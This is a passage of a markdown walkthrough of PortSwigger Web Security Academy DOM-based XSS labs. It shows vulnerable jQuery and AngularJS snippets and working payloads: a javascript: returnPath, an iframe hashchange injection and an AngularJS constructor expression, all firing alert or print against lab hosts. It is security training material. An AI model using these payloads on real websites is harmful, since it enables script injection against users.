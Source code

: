 full path:
```
GET /feedback?returnPath=javascript:alert(document.domain) HTTP/1.1
```


# ***5. Lab: DOM XSS in jQuery selector sink using a hashchange event***
[to the Lab](https:/portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)
```
original script:
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
```
payload format:
```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print(1)>'">
```
**final payload:**
```
<iframe src="https://ac201fda1fe56926c03d960700870032.web-security-academy.net#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
to be stored on attacker server and deliverd as url


# ***6. Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded***
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

vulnerable code:
```
    <body ng-app="" class="ng-scope">
        <input type="text" placeholder="Search the blog..." name="search">
```  
**payload:**
```
{{$on.constructor('alert(1)')()}}
```
full path:
```
GET /?search={{$on.constructor('alert(1)')()}} HTTP/1.1
```

# ***7. Lab: DOM XSS combined with reflected and stored data***
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)
